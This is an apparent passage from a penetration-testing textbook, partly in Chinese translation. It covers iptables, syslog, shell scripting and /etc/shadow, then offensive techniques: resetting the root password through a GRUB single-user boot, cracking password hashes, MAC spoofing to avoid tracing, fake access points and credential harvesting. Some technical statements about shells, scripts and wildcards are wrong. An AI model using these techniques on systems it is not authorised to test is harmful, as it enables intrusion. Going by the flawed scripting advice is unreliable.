The first firewall widely available for Linux was called ipchains. This product worked, but had limitations. It was first introduced in version 2.2 of the Linux kernel and superseded ipfwadm. Now iptables is the primary firewall for Linux. The iptables service was first introduced in Linux kernel 2.4

On most Linux systems, iptables is installed as /usr/sbin/iptables. However, if it was not included in the installation, you can add it later. You can see this in Figure 10-9.


图 10-9 iptables。

An iptables firewall is made up of three different kinds of object: tables, chains, and rules. Each table contains chains of rules. Each chain represents a series of rules that define what packets to allow in.

There are actually three tables and each has some standard rule chains in it. You can of course add your own custom rules. The three tables and their standard chains are

- **Packet filtering:** This table is the essential part of the firewall. It is, obviously, a packet filtering firewall. It has three standard chains: INPUT, OUTPUT, and FORWARD. Packets coming into the network are processed by the INPUT chain, and traffic sent out from the network is processed by the OUTPUT chain. If the firewall system is also acting as a router, only the FORWARD chain applies to routed packets.
- **Network address translation:** This table is used for outbound traffic that initiates a new connection. It facilitates the process of network address translation. The rules in its PREROUTING chain are applied to packets as soon as they are received by the firewall for routing, and the POSTROUTING chain for packets about to leave after routing. The OUTPUT chain rules are applied to locally generated packets for modification before routing.
- **Packet alteration:** This table is used only for specialized packet alteration. It is often called the mangle table since it alters, or mangles, packets. It contains two standard chains. The first chain is called PREROUTING, and is for modifying packets before routing. The other chain, called OUTPUT, is used to modify packets generated inside the network. This table may not be even needed for many standard firewalls.

### iptables Configuration

As you can probably guess, iptables requires some configuration. Let’s take a look at some common, basic configuration issues.

To cause iptables to function as a basic packet filtering firewall, you need these commands:

```
iptables -F
iptables -N block
iptables -A block -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Obviously, that is the most basic and essential iptables configuration. However, here are some others.

To list the current iptables rules:

```
iptables -L
```

To allow communication on a specific port, in this example using SSH port 22:

```
iptables -A INPUT -p tcp --dport ssh -j ACCEPT
```

Or perhaps you need to allow all incoming web/http traffic:

```
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
```

It is also a good idea to log dropped packets. The following command will do that:

```
iptables -I INPUT 5 -m limit --limit 5/min -j LOG --log-prefix "iptables denied: "
--log-level 7
```


如你所见，可以向 iptables 命令传递标志。以下是最常见的标志及其作用的列表：

- **-A:** 将此规则追加到规则链。
- **-L:** 列出当前过滤规则。
- **-p:** 使用的连接协议。
- **--dport:** 此规则所需的目的端口。 可以指定单个端口，或以 start:end 的形式指定范围。
- **--limit:** 最大匹配速率，以数字后跟 "/second"、"/minute"、"/hour" 或 "/day" 给出，具体取决于你希望规则匹配的频率。 如果未使用此选项且使用 -m limit，则默认值为 "3/hour。"
- **--ctstate:** 定义规则匹配的状态列表。
- **--log-prefix:** 日志记录时，将此文本放在日志消息之前。 使用时请在文本周围加上双引号。
- **--log-level:** 使用指定的 syslog 级别进行日志记录。
- **-i:** 仅当数据包从指定的接口传入时才匹配。
- **-v:** 详细输出。
- **-s --source:** address[/mask] 源规范。
- **-d --destination:** address[/mask] 目标规范。
- **-o --out-interface:** 输出名称[+] 网络接口名称（[+] 表示通配符）。

这不是一个详尽的列表，但这些是最常见的标志。 与之前列出的配置语句结合使用，这足以让你在系统上运行 iptables。

一些 Linux 发行版提供用于处理 iptables 的额外工具。 例如，Red Hat 包含一个 GUI 配置工具，位于 /usr/bin/redhat-config-securitylevel，可以用来选择预配置的防火墙（高、中或无防火墙）。

在下一节中，我们将查看一些其他基本安全服务。

## 系统日志

syslog，即系统日志守护进程，将系统事件记录到日志文件。 这些文件通常位于 /var/log 目录。 该守护进程的实际名称是 klogd。 本质上，syslog/klogd 是一个用于跟踪和记录所有系统消息的实用程序。 发送到 syslog 的每个系统消息都有两个描述性标签与之关联。 第一个标签描述了生成此日志事件的应用程序的功能。 第二个标签描述了消息的严重性。 有八个严重级别，显示在表 10-1 中。

### 表 10-1 系统日志严重级别

| Severity Level | Title | Description |
|---|---|---|
| 0 | emergencies | 系统无法使用 |
| 1 | alerts | 立即采取行动 |
| 2 | critical | 严重情况 |
| 3 | errors | 错误情况 |
| 4 | warnings | 警告情况 |
| 5 | notifications | 正常但重要的情况 |
| 6 | informational | 通知性消息 |
| 7 | debugging | 调试消息 |

你可以看到一些严重级别，例如级别 5，都是平常的项目，对管理员而言并不紧急。 然而，严重级别为 0 到 4 的项目应引起任何管理员的关注。 这些消息通常存储在 /var/log/messages 文件中。 在出现系统错误时检查此文件是一个明智的做法。 这里找到的消息可以成为排除系统问题的一个很好的第一步。 而从渗透测试者的角度来看，这些是检查是否存在重大入侵迹象的地方。

如果你有多个服务器，则将系统消息转发到单个集中服务器是一个良好的安全实践。 所有服务器都记录到中央 syslog 服务器后，更容易跟踪所有服务器的日志。 此外，如果入侵者获得了其中一台服务器的访问权限，他或她可能希望通过从该系统的 syslog 中删除数据来掩盖痕迹。 默认情况下，syslog 不期望接收来自远程客户端的消息，但你可以轻松配置系统以实现此功能。 你需要前往将接收消息的服务器并更改其 syslog 配置。 配置文件可以在 /etc/sysconfig/syslog 找到。 如果渗透测试者（或攻击者）获得了 syslog 配置文件的访问权限，他们可以关闭所有日志记录。

为了使服务器能够侦听远程消息，此文件中的 SYSLOGD_OPTIONS 变量必须包含 -r，例如：

```
SYSLOGD_OPTIONS="-m 0 -r"
```

或像这样：

```
SYSLOGD="-r"
```

你必须在服务器上重启 syslog 才能使更改生效。 服务器现在将开始在 UDP 端口 514 上侦听，你可以使用 netstat 命令进行验证。

## Syslogd

这个 shell 实用程序是提供系统日志记录的守护进程的一部分，更具体地说是内核日志记录。 该服务提供了将数据记录到 syslog 的能力。 正如你所料，syslogd 有一些你可以设置的选项：

- **-a:** 这允许你为 syslog 守护进程添加额外的套接字以进行侦听。 这对于你有其他服务器将 syslog 消息转发到中央服务器的情况很有用。
- **-d:** 这以调试模式运行守护进程，允许你在 shell 中实时查看问题。
- **-h:** 此选项允许你将当前服务器/机器上的 syslogd 消息转发到集中服务器。
- **-r:** 你将在接收来自其他服务器的 syslogd 消息的中央服务器上使用此选项。 它将守护进程置于允许从网络接收消息的模式。
- **-s:** 此选项用于使守护进程以详细模式记录日志。 这将增加日志条目的详细信息量。

还有其他选项，但这些是最广泛使用的一些，特别是 -h 和 -s。

显然，日志记录是渗透测试者关心的问题。 从攻击角度来看，你希望知道你的攻击是否被记录。 从安全测试角度来看，你希望确保它们被记录。

## 脚本编写

最终大多数渗透测试者都希望编写自己的脚本，以便自动化他们喜欢的测试。 脚本编写与使用 C、C++ 或 Java 等语言进行的传统编程非常相似。 然而，它有一些显著差异。 首先，你不需要编译脚本。 你只需在首选的文本编辑器中编写脚本代码，然后在需要时执行它。 其次，脚本编写不需要特殊的软件工具或实用程序。 如前所述，你可以使用任何你喜欢的文本编辑器。 但脚本编写与传统编程有一个共同点：需要正确的语法和结构。 脚本中的任何错误，即使是微不足道的，也会导致脚本无法运行或大幅改变脚本的输出。

脚本可以用任何基本文本编辑器编写。 你可以使用 Kate、Kwrite 或任何其他你想要的文本编辑器。 编写脚本时首先要记住的是，脚本通常是为特定 shell 编写的（即 BASH、C shell、Korn 等）。 因此，所有 shell 都有一个约定标准，即脚本的第一行声明它运行在何种类型的 shell 中。 然后该 shell 将被用来运行脚本。 例如，如果你希望脚本由 C shell 运行，第一行将是：

```
#!/bin/csh
```

如果你希望脚本在 BASH 中运行：

```
#! /bin/sh
```

也是标准做法将脚本文件保存为 .sh 扩展名，例如 myscript.sh。 一旦你将其保存为 .sh 扩展名，Linux 中的许多文本编辑器会识别这是一个脚本并相应地格式化文本。 例如，shell 命令将使用一种颜色和字体，注释使用另一种，脚本命令使用另一种颜色和字体。 考虑这个基本脚本：

```
#! /bin/sh
hostname
who
exit 0
```

这个特定的脚本非常基础。 它将显示运行它的计算机的主机名（hostname）和当前登录到该服务器的任何用户列表（who），然后退出脚本（exit 0）。 你也可以从脚本的第一行看出，这为 BASH 编写，BASH 是最常见的 shell。 请注意所有脚本必须以 exit 0 结束。 这是结束脚本的语法。

如果你在该目录上运行 ls 命令，你将看到该特定目录的内容。

在某些 Linux 发行版中，任何带有 .sh 扩展名的文件都被自动视为可执行文件。 在其他发行版中，如 OpenSUSE，你必须更改文件使其可执行。 这是一个简单的命令：

```
chmod 777 myscript.sh
```

之后，如果你运行 ls，你会看到脚本文件为绿色。 这表明它是可执行的。

这当然引出了 chmod 命令本身的话题，我们在第 9 章讨论过它。 此命令允许你修改任何文件的权限。 这三个数字代表文件所有者、当前组或所有人。 所以，例如，如果我们只想让特定用户能够执行此脚本，我们将写

```
chmod 700 myscript.sh
```

如果相反，我们想提供组执行权限：

```
chmod 070 myscript.sh
```

数字 7 表示完全权限。 权限是

- 0 = 无权限
- 1 = 执行
- 2 = 写入
- 4 = 读取


但是它们可以组合；例如，2 和 1 给予写和执行权限。权限的完整列表如下。如果将读、写和执行组合起来，那就是数字 7（只需将执行对应的 1、写对应的 2 和读对应的 4 相加）。

- 0 – 无权限
- 1 – 仅执行
- 2 – 仅写
- 3 – 写和执行
- 4 – 仅读
- 5 – 读和执行
- 6 – 读和写
- 7 – 完全控制

现在你已经了解了 chmod 和文件权限，是时候执行我们的脚本了。要执行此脚本或任何其他脚本，请在 shell 中输入

```
bash myscript.sh
```

你的脚本就会执行。在这种情况下，脚本执行了两个特定的 shell 命令：hostname 和 who。你可以在图 10-10 中看到它。


图 10-10 执行脚本。

显然，这是一个相当简化的脚本，用途有限。然而，它确实展示了编写脚本和执行脚本所使用的基本技术。该脚本具有其所针对的 shell 的正确标识符、一系列命令（尽管很短）以及终止/退出代码。虽然这是一个简单的脚本，但它为所有脚本必须如何编写提供了一个模板。

有时在你的脚本中，你可能需要编写多个相关的语句。你可能希望将它们全部放在一行上。你可以选择这样做以节省空间或逻辑上将属于一起的命令分组。不管出于什么原因，做到这一点其实很简单。你只需用单个分号分隔该行上的每个命令，如下所示：

```
statement one; statement two; statement three
```

你可以打开你喜欢的文本编辑器并输入以下内容。然后将其保存为 scriptmultiple.sh 并运行它。

```
#!/bin/bash
ls; ps;who;logname;
exit 0
```

当你运行它时，它的工作方式就好像你将每个命令放在单独的一行上一样。许多脚本编写者都会这样做，你可能会在其他管理员编写的脚本中看到它。然而，我不推荐这样做。我始终主张编写任何代码都应易于阅读和跟随。在我看来，将多个命令放在一行上并不能促进易于阅读的脚本。

除了执行多个 shell 命令外，脚本还可以做许多其他事情。例如，你可以将特殊字符与 shell 命令结合起来以改变该命令的输出。最常见的例子是使用通配符与命令一起使用。

通配符是一个字符，用于表示任何字符。脚本中使用了几种通配符。例如，如果我写

```
ls *.sh
```

我是在要求 shell 列出以 .sh 结尾的任何文件（即任何脚本文件），无论该文件中有多少个字符。因此，此命令将列出任何脚本文件。另一方面，如果我使用 ? 通配符，则命令只会列出与问号数量相等的字符数的文件。因此，如果我写

```
ls ????.sh
```

我是在要求 shell 列出以 .sh 结尾的任何文件（即任何脚本），其文件名有三个字符。

我也可以查找字母范围，如下所示：

```
ls myscript[123].jpg
```

在这种情况下，我是在要求 shell 列出以 .sh 结尾的任何文件（即任何脚本），其文件名以 myscript 开头，然后以 1、2 或 3 结尾。

也可以搜索字母范围，如下所示：

```
ls [a-d,A-D]*.txt
```

这是在告诉 shell 查找以 a–d 小写或 A–D 大写开头的任何文档。

这些通配符可与 ls 以外的命令一起使用。例如，rm 命令（用于删除文件）也可以根据通配符分配删除文件。以下是使用通配符的基本脚本：

```
#!/bin/sh
ls *.txt
ls [a-m]???.sh
ls ??.txt
exit 0
```

这是一个非常简单的脚本，但它说明了迄今为止我们所讨论的要点的精髓。表 10-2 提供了可用通配符的列表。

## 表 10-2 通配符

| 通配符 | 用途 |
|---|---|
| * | 这表示字面上的任意字符，以及任意数量的字符。例如，*.sh 表示任何 shell，任何文件，无论名称中有多少字符，只要以 .sh 扩展名结尾。 |
| ? | 这表示一个字符。例如，????.txt 表示所有名称为四个字符的文本文件。 |
| ! | 这表示非，或否定。 |
| [abc] | 这表示包含所列的任意字符。因此 [abc]???.txt 表示以 a、b 或 c 开头后跟三个字符的所有文本文件。 |
| [a-m] | 这表示所示范围内的任意字符。因此 [a-l]??.txt 表示以 a 到 l 之间的某个字母开头，后跟两个字符的任何文件。 |

## Linux 密码

你在第 9 章中简要介绍了 Linux 密码。现在我们将更仔细地研究。首先让我们看看我自己的 Kali Linux 中的 /etc/shadow 文件，如图 10-11 所示。

首先请注意，各种服务也拥有账户。让我们来检查一下，以便你了解所看到的内容。首先，很明显，每一行都是一个单独的用户，并且有服务账户和人类用户的用户。每个字段由冒号分隔。

第一个字段是用户名。第二个是密码。现在，密码可以根据 Linux 版本以哈希或加密形式存储。某些版本的 Linux（尽管图 10-11 中显示的版本不是）会告诉你它是哪一种。密码中有一个 ID：

- **$1$** 是 MD5。
- **$2a$ or $2y$** 是 Blowfish。
- **$5$** 是 SHA-256。
- **$6$** 是 SHA-512。

```
root:X014elvnZq7E:17381:0:99999:7:::
daemon:*:16820:0:99999:7:::
bin:*:16820:0:99999:7:::
sys:*:16820:0:99999:7:::
sync:*:16820:0:99999:7:::
games:*:16820:0:99999:7:::
man:*:16820:0:99999:7:::
lp:*:16820:0:99999:7:::
mail:*:16820:0:99999:7:::
news:*:16820:0:99999:7:::
uucp:*:16820:0:99999:7:::
proxy:*:16820:0:99999:7:::
www-data:*:16820:0:99999:7:::
backup:*:16820:0:99999:7:::
list:*:16820:0:99999:7:::
irc:*:16820:0:99999:7:::
gnats:*:16820:0:99999:7:::
nobody:*:16820:0:99999:7:::
systemd-timesync:*:16820:0:99999:7:::
systemd-network:*:16820:0:99999:7:::
systemd-resolve:*:16820:0:99999:7:::
systemd-bus-proxy:*:16820:0:99999:7:::
_apt:*:16820:0:99999:7:::
messagebus:*:16820:0:99999:7:::
mysql:*:16820:0:99999:7:::
avahi:*:16820:0:99999:7:::
miredo:*:16820:0:99999:7:::
ntp:*:16820:0:99999:7:::
stunnel4:!:16820:0:99999:7:::
uidd:*:16820:0:99999:7:::
Debian-exim:!:16820:0:99999:7:::
statd:*:16820:0:99999:7:::
arpwatch:!:16820:0:99999:7:::
```

图 10-11 /etc/shadow 文件。

然后还有后续字段（并非所有版本的 Linux 都有）：

- **Minimum：** 密码更改之间所需的最小天数。
- **Maximum：** 密码有效期最长天数（之后用户被迫更改其/她的密码）。
- **Warn：** 密码到期前用户被警告其/她的密码必须更改的天数。
- **Inactive：** 密码过期后账户被禁用的天数。
- **Expire：** 自 1970 年 1 月 1 日起的天数，账户被禁用；即指定登录可能不再使用的绝对日期。

如果字段中没有数据，则会显示 ::。在渗透测试时检查此文件非常重要。它会告诉你有关此系统上密码有多安全的许多信息。如果密码以哈希形式存储，你需要获取该哈希并通过各种彩虹表（网上可以找到很多）运行它，以查看是否可以推导出密码。

## Linux 黑客技巧

到本书的这一点，你应该意识到没有任何黑客技巧总是有效。它在某些系统上有效，在其他系统上无效。没有万能的解决方案。但在渗透测试中，你会尝试这些技巧，看看它们是否适用于你正在测试的系统。如果它们有效，那么你就会建议补救措施。在本节中，我们将介绍一些你可以在 Linux 系统上尝试的基本黑客技巧。

然而，即使是非常旧的技巧，了解并尝试 Linux 黑客技巧对渗透测试人员也很有价值。Linux 被用于设备或单用途服务器上并且不定期更新的情况并不少见。找到很长时间未更新的旧版 Linux 并不罕见。作为渗透测试人员，找到这些漏洞是你防止攻击者发现它们的工作。

### 启动劫持

系统启动时，你可以中断启动过程。在某些 Linux 发行版中，启动期间按下任意键即可做到这一点；在其他发行版中则为特定键（你需要搜索网络以获取你的 Linux 发行版的中断键）。这应该会给出 GRUB 菜单（用于选择要启动到哪个系统）。你可以在图 10-12 中看到 GRUB 菜单。


图 10-12 GRUB 菜单。


现在按下 **e** 键来编辑以内核开头的行（如果出现此类行；如果没有，则你无法在该系统上执行此 hack）。现在在该行的末尾添加一个空格后跟 **1**。这会使你以单用户模式登录，这类似于 Windows 的安全模式。你现在可以使用 **passwd** 命令来更改 root 密码。事实上，任何让你进入单用户模式的方法（甚至尝试使用 **init 1**）都会让你有机会尝试使用 **passwd** 命令。如果它有效，这太棒了。但在许多系统上它将无法工作。

## Backspace 漏洞
我不讨论这个技巧就说不过去了。2015 年，它在黑客圈子里非常流行。一些研究人员发现了一个漏洞，攻击者可以通过在启动时按 28 次退格键来绕过 Linux 身份验证。最终结果是打开一个“救援 shell”，这是一个 shell，允许你执行许多你可能 otherwise 无法执行的操作。

## 摘要
在本章中，你已经看到了更多关于 Linux 操作系统的内容，特别是与安全相关的方面。你还看到了如何编写 Linux 脚本，这对于渗透测试人员来说是一个常见任务。最后，你已经了解了一些常见的 Linux 黑客技术。

## 测试你的技能
### 多项选择题
- 1. 当检查 /etc/shadow/ 时，密码 ID $6$ 表示什么？
  - A. 密码以 SHA-256 哈希形式存储。
  - B. 密码使用 Blowfish 加密。
  - C. 密码以 SHA-512 哈希形式存储。
  - D. 密码以 MD5 哈希形式存储。
- 2. syslog 错误级别 7 是什么？
  - A. 严重
  - B. 调试
  - C. 严重
  - D. 信息性
- 3. 以下哪项最能描述 touch 命令的用途？
  - A. 获取用户信息
  - B. 获取文件信息
  - C. 更改文件权限
  - D. 更改文件日期
- 4. 结束 BASH 脚本的命令是什么？
  - A. exit 0
  - B. end
  - C. exit
  - D. end 0
- 5. 当前 Linux 防火墙的名称是什么？
  - A. IPGuard
  - B. IPRules
  - C. IPChains
  - D. IPTables

## 项目
### 项目 1：Linux 命令
创建几个文本文件。然后使用 **touch** 命令将文件的日期更改为未来和过去的日期。

### 项目 2：/etc/shadow
检查实验室 Linux 机器上的 /etc/shadow 文件。看看你是否可以通过在线彩虹表找到密码。无论密码是以哈希形式存储还是加密，至少记录 root 密码的密码和过期日期以及至少两个服务账户。

### 项目 3：Linux 脚本编写
编写一个执行至少三个 shell 命令的 Linux 脚本。这些可以是第 9 章、第 10 章的命令，或你能访问的任何其他 Linux 来源。

## Kali Linux 简介
### 章节目标
阅读本章并完成练习后，你将能够做到以下几点：
- 了解 Kali Linux
- 使用 Kali Linux 功能
- 使用 Kali Linux 中的工具

第 9 章和第 10 章应该为你提供了 Linux 的基本工作知识以及对 Linux 安全性的理解。第 10 章还让你了解了 Linux 渗透测试和黑客问题。

在本章中，我们将探索 Kali Linux。Kali Linux 发行版专门用于黑客、取证和网络安全。它 simply 充满了可用于渗透测试的工具。你应该注意的是，新版本有时会更改包含的工具集。某些工具可能会被添加或删除。

### Kali Linux 历史
Kali Linux 基于 Debian Linux 发行版。Kali 由 Offensive Security 维护，该厂商还提供 Offensive Security Certified Professional（OSCP）认证测试。虽然工具会来来去去，但像 nmap、Wireshark、Metasploit 和 Burp Suite 等工具始终包含在内。

Kali 是 BackTrack Linux 的继任者。该发行版基于 Knoppix Linux，也包含大量与渗透测试相关的工具。

### Kali 基础
Kali 是一个免费下载（https://www.kali.org/）。它通常加载到虚拟机中（Oracle Virtual Box 或 VMware Workstation 是流行的选择）。我建议将其用作实时使用（如图 11-1 所示），而不是安装它。


图 11-1 Kali Linux Live。

在教授 Kali 或用于渗透测试时，我通常将 VM 网络设置为 **bridge** 并使用 **ifconfig eth0 192.168.0.XXX** 手动设置静态 IP 地址。在 Oracle Virtual Box（它也是一个免费下载；https://www.virtualbox.org/）中，这些设置可以在 Machine 下拉列表中找到。注意，如果你改用 VM 用于 Kali，并使用另一台 VM 作为目标，两者都托管在同一主机上，那么不要使用 bridge，而是使用网络设置 **host only**。图 11-2 显示了 Oracle Virtual Box 网络设置。


图 11-2 Oracle Virtual Box 设置。

Kali 的默认密码是 **toor**（即 *root* 反向拼写）。主菜单看起来像图 11-3 中显示的那样。

首先立即注意到的事情是，Kali 根据功能按组组织应用程序，例如信息收集、漏洞分析、Web 应用程序分析、密码攻击、利用工具、取证等。我们在这本书中已经见过其中的一些工具，例如 nmap。在下一节中，我们将检查其中的一些工具


图 11-3 Kali 主菜单。

### Kali 工具
Kali Linux 包含数百个工具。光讨论不同的工具就可以填满一整本书。在本节中，我们将查看对渗透测试非常有用的几个工具。每个工具都可以比这里介绍的更深入地探索。本章的目标是让你了解 Kali 中有什么，并向你展示几种工具的基本用法。然后你可以选择似乎与你的渗透测试最相关的工具，并花一些时间熟悉它们。

### recon-ng
recon-ng 工具旨在将各种侦察工具汇集到一个地方。这样你就可以使用此单一工具对目标系统进行侦察。图 11-4 显示了主屏幕。

要了解 recon-ng 能做什么，请输入 show modules。可用模块的列表将显示，如图 11-5 所示。

```
root@kali:~# recon-ng

Sponsored by...
/// BLACK HILLS \
www.blackhillsinfosec.com
[recon-ng v4.7.2, Tim Tomes (@LaNMaSteR53)]
[80] Recon modules
[7] Reporting modules
[2] Import modules
[2] Exploitation modules
[2] Discovery modules

[recon-ng][default] >
```

图 11-4 Recon-ng.

```
[80] Recon modules
[7] Reporting modules
[2] Import modules
[2] Exploitation modules
[2] Discovery modules

[recon-ng][default] > show modules

Discovery
--------
discovery/info_disclosure/cache_snoop
discovery/info_disclosure/interesting_files

Exploitation
------------
exploitation/injection/command_injector
exploitation/injection/xpath_bruter

Import
------
import/csv_file
import/list

Recon
-----
recon/companies-contacts/ligsaw/point_usage
recon/companies-contacts/ligsaw/purchase_contact
recon/companies-contacts/ligsaw/search_contacts
recon/companies-contacts/ligsaw_auth
recon/companies-contacts/linkedin_auth
recon/companies-multi/github_miner
recon/companies-multi/whois_miner
recon/companies-profiles/bing_linkedin
```

图 11-5 Recon-ng 显示模块。

对于任何模块，你将输入 **use**，然后是完整的模块名称。然后你可以使用 **show options** 和 **show info** 来了解如何使用该模块，如图 11-6 所示。


图 11-6 Recon-ng **use** 模块。

让我们运行一个具体的。 如图 11-7 所示，我们将运行的具体命令是
- **use recon/domains-vulnerabilities/xsposed**
- **show info**
- **set source chuckeasttom.com**
- **run**

在这种情况下，所讨论的站点不受跨站脚本攻击的影响（谢天谢地，因为它是我的网站！）。但这说明了使用 recon-ng 是多么容易。


图 11-7 recon/domains-vulnerabilities/xssposed.

## Dmitry

Dmitry 是 Deepmagic 信息收集工具。它本质上是一个搜索和扫描工具。图 11-8 显示了可用的选项。


图 11-8 Dmitry.

让我们再次在我的网站上使用 Dmitry。我们将输入

```
dmitry -i -s -e www.chuckeasttom.com
```

- **-i** 是 whois 查询。
- **-s** 是子域名搜索。
- **-e** 是电子邮件地址搜索。

图 11-9 显示了结果。


图 11-9 Dmitry Scanning.

如你所见，Dmitry 是 Kali Linux 中的另一个易于使用的侦察工具。

## Sparta

Sparta 是一个工具，可让你同时访问多个漏洞扫描器，包括：

- Mysql-default
- Nikto
- Snmp-enum
- Smtp-enum-vrfy
- Snmp-default
- Snmp-check

Sparta 也是一个易于使用的 GUI 工具，而非命令行。图 11-10 显示主机被添加到扫描器中。


图 11-10 Sparta Main Screen.

除其他项目外，Sparta 还包括基本的 nmap 扫描，如图 11-11 所示。


图 11-11 Sparta Scan Results.

Sparta 甚至包含暴力密码破解器，如图 11-12 所示。


图 11-12 Sparta Brute Force Cracker.

## John the Ripper

John the Ripper 是一个广为人知的密码破解工具。Kali Linux 具有 John the Ripper 的 shell 版本和名为 Johnny 的 GUI 版本，见图 11-13。


图 11-13 Johnny.

它使用起来相当容易，特别是使用 GUI 时。然而，你必须记住，没有保证能破解密码的工具。任何密码破解工具都只能尽力尝试破解密码。

## Hashcat

Hashcat 是一种彩虹表工具，用于尝试查找密码。它完全是 shell，没有 GUI。其主要优势是可以处理多种哈希格式。不同的应用程序可以以多种方式存储其哈希密码。Hashcat 可以处理几种广泛使用的格式，包括 Mac OS X，如图 11-14 所示。


图 11-14 Hashcat.

## macchanger

此特定工具用于更改 Kali 机器发送的 MAC 地址。这使得追踪攻击回溯到 Kali 机器变得更加困难。此外，MAC 欺骗可以成为规避某些形式身份验证的一种方式。图 11-15 显示了可用的 macchanger 选项。

macchanger 是一个非常易于使用的工具。你可以在图 11-15 中看到它只包含几个命令。基本语法分为三个步骤：

步骤 1. 关闭你的网卡：

```
ifconfig eth0 down
```

步骤 2. 按如下方式运行 macchanger：

```
macchanger -m a1:b2:c3:11:22:33 eth0
```

或将其设置为随机数：

```
macchanger -r eth0
```

步骤 3. 重新启用你的网卡：

```
ifconfig eth0 up
```

如果出现错误，最常见的问题是没有 root 级权限。


图 11-15 macchanger.

### 注意

虽然 ifconfig 常被使用，但它确实存在已知 bug，其中一些列在 man 手册中。有一个替代方案，即包 iproute2，其工具为 ip。以下是用于启用/禁用接口和更改其 MAC 地址的等效 ip 命令：

- ip link set eth0 down
- ip link set address a1:b2:c3:11:22:33 eth0
- ip link set eth0 up

## Ghost Phisher

Ghost Phisher 是一个功能非常多样的工具，具有多个有趣的功能。图 11-16 显示了主屏幕。


图 11-16 Ghost Phisher.

左侧的前四个选项卡都有设置，可将你的 Kali Linux 机器变成以下之一：

- 一个假无线接入点
- 一个假 DNS 服务器
- 一个假 DHCP 服务器
- 一个假 HTTP 服务器

还有用于会话劫持和凭证收割的选项卡。

在阅读完第 12 章“General Hacking Techniques”后，GHOST Trap 选项卡对你会更有用。此选项卡允许你设置一个假网站，向访问该假网站的计算机下载 Metasploit 漏洞利用。你可以在图 11-17 中看到这一点。


图 11-17 Ghost Phisher GHOST Trap Settings.

这些选项卡中的每一个都允许你将 Kali Linux 机器变成某种陷阱。这在渗透测试中非常有用。

## 摘要

本章介绍了 Kali Linux 中找到的许多基本工具。Kali 包含数百个工具。本章的目标是向你介绍一些更受欢迎的工具，并提供对其功能的基本熟悉程度。一旦你找到了偏好的工具，你应该花更多时间熟悉这些特定工具。

## 测试你的技能

## 多项选择题

- 1. Kali Linux 的默认密码是什么？
  A. password
  B. toor
  C. root
  D. kali
- 2. John the Ripper 是什么类型的工具？
  A. Password cracker
  B. Firewall breacher
  C. Vulnerability scanner
  D. Wi-Fi cracker
- 3. 哪个工具可以处理 Macintosh 密码哈希？
  A. Sparta
  B. Dmitry
  C. John the Ripper
  D. hashcat
- 4. Dmitry 主要用于什么？
  A. Password cracking
  B. Reconnaissance
  C. Web cracking
  D. Wi-Fi cracking

## 项目

## 项目 1：Sparta

对你自己的 IP 地址执行 Sparta 漏洞分析。

## 项目 2：recon-ng

使用 recon-ng 收集你选择的网站的信息。你也可以使用我的网站 www.ChuckEasttom.com。

# 第 12 章

## 通用黑客技术

## 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 使用 Kali Linux 执行基本功能
- 理解社会工程学
- 发起拒绝服务攻击

黑客（和渗透测试）中使用了一些通用技术，你应该熟悉这些技术。这些是攻击者经常针对你的网络使用的技术；因此，你必须测试你的网络以检查这些项目。其中一些将使用 Kali Linux，你在第 11 章“Introduction to Kali Linux”中了解过它，但其他一些不需要 Kali。

## Wi-Fi 测试

在渗透测试中显然需要 Wi-Fi 测试。在本章中，我将简要介绍该主题以及可用于测试 Wi-Fi 相关安全性的一些技术。第 18 章“Additional Pen Testing Topics”将提供更具体的攻击 Wi-Fi 的技术。

## 创建热点

随着 Wi-Fi 的无处不在，rogue 热点攻击，也称为 evil twin 攻击，相当地常见。有许多方法可以设置假无线接入点（WAP）；让我们检查几个。

## The WiFi Pineapple

WiFi Pineapple 是 Hak5 LLC 的产品。该工具包含多个 Wi-Fi 渗透测试工具，并使用 Web 界面进行配置。WiFi Pineapple 可以做的事情之一是
设置 rogue 接入点。然后它跟踪连接到它的设备，并可用于捕获其流量。你可以从 https://www.wifipineapple.com/ 获取 WiFi Pineapple。

## 将你的笔记本电脑变成 WAP

许多现代笔记本电脑具有作为无线接入点的能力。笔记本电脑本身首先应连接到某个 Internet 源（Wi-Fi 或蜂窝网络），以便它可以将传入的数据包路由到该源。你还需要运行一些数据包嗅探器，以便查看连接到笔记本电脑无线接入点的设备的数据。tcpdump 或 Wireshark 对于此目的效果很好，两者都在第 8 章“Vulnerability Scanning”中讨论过。

在 Windows 中，你可以简单地使用网络设置，如 Windows 10 的图 12-1 所示。请注意，如何找到这些设置取决于你拥有的 Windows 版本。在 Windows 10 中，在 Cortana 搜索中输入 settings 会得到 Network and Internet 的结果，你必须点击它才能进入网络设置。


图 12-1 Windows 10 Mobile Hotspot Settings.

你可能多次使用过第一个按钮 Wi-Fi，很可能也使用过第二个按钮飞行模式。第三个按钮将你的笔记本电脑变成移动热点。只需点击它即可激活，然后你可以右键点击它以获取“转到设置”选项，如图 12-2 所示。


图 12-2 Turning On the Mobile Hotspot.


当你点击“转到设置”时，你会看到图 12-3 所示的屏幕。


图 12-3 移动热点设置。

随机名称和网络密码已配置。你还可以看到当前连接的设备数量。你可以点击编辑按钮然后更改设置，如图 12-4 所示。


图 12-4 更改 Wi-Fi 设置。

如你所见，用你想要的任何名称将你的 Windows 10 机器设置为无线接入点实际上是一项微不足道的任务。

## 使用 Kali 作为热点

到目前为止，你应该已经意识到 Kali 配备了各种对渗透测试人员有用的工具。其中之一就是 wifi-honey。它是一个 shell 工具，但非常易于使用。在使用它之前，我们必须弄清楚我们有哪些无线适配器。有多个命令可以做到这一点，包括：

```
netstat -i
ifconfig -a
```

图 12-5 显示了 ifconfig -a 命令的结果。


图 12-5 使用 ifconfig -a 搜索无线适配器。

你可能会注意到一些奇怪的事情。没有显示无线适配器。这使得设置 Wi-Fi 蜜罐变得相当困难。问题是我在虚拟机（具体来说是 Oracle Virtual Box）中运行 Kali Linux。在虚拟机内部运行时，无线网卡会显示为有线网卡。因此，在这种情况下，我将使用 eth0。讲到这里，接下来介绍 Wifi-Honey 的使用。

如果你以前从未使用过 Wifi-Honey，先从 help 命令开始，以便查看有哪些选项，如图 12-6 所示。


图 12-6 Wifi-Honey 帮助命令。

如你所见，你需要为你的蜜罐指定一个 SSID 和一个频道，并告诉 Wifi-Honey 使用哪个接口。让我们这样做。你可以在图 12-7 中看到这一点。


图 12-7 设置 Wifi-Honey。

